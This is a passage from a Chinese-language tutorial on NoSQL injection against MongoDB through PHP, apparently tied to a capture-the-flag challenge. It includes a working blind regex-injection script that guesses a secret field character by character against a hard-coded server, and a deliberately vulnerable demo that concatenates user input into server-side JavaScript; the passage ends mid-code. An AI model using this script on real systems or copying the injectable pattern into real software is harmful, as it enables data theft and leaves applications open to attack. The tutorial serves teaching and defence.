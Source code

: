 ```

```

这样的话，因为只有“正确”或者“错误”两种回显，我们只能通过正则判断来一位一位读取lock的内容了。

对于该题的利用payload如下：

```
<?php 
$ch=curl_init();
curl_setopt($ch,CURLOPT_URL,'http://121.40.86.166:23339/');
curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
curl_setopt($ch,CURLOPT_POST,1);
$ori = '0123456789abcdefghijklmnopqrstuvwxyz';
$str = '';
for ($i=0; $i <10 ; $i++) {
    for ($j=0; $j <strlen($ori) ; $j++) { 
        $post = 'key=1&lock[$regex]=^'.$str.$ori[$j];
        curl_setopt($ch,CURLOPT_POSTFIELDS,$post);
        $data=curl_exec($ch);
        if (strlen($data) == 319) {
           $str.=$ori[$j];
           echo $str."\r\n";
           break;
        }
    }
}
?>

```

结果如图：

![enter image description here](http://drops.javaweb.org/uploads/images/544cb60d69f39247d9457aa3d215a778faf998ff.jpg)

相当于在数据库中多次执行查询:

db.test.find({lock:{'$regex':'^a'}}); db.test.find({lock:{'$regex':'^b'}}); db.test.find({lock:{'$regex':'^c'}}); db.test.find({lock:{'$regex':'^ca'}}); …… …… db.test.find({lock:{'$regex':'^aabbccdd'}});

最终全部猜出字符串的内容,相似与sql注入中的盲注。

2.拼接字符串时的注入

因为字符串的拼接方式多种多样，不同程序员也有不同的书写习惯。

本文中仅举几个demo为例。

```
<?php
$username = $_GET['username'];
$password = $_GET['password'];
$query = "var data = db.test.findOne({username:'$username',password:'$password'});return data;";
//$query = "return db.test.findOne();";
//echo $query;
$mongo = new mongoclient();
$db = $mongo->myinfo;
$data = $db->execute($query);
if ($data['ok'] == 1) {
    if ($data['retval']!=NULL) {
        echo 'username:'.$data['retval']['username']."</br>";
        echo 'password:'.$data['retval']['password']."</br>";
    }else{
        echo '未找到';
    }
}else{
    echo $data['errmsg'];
```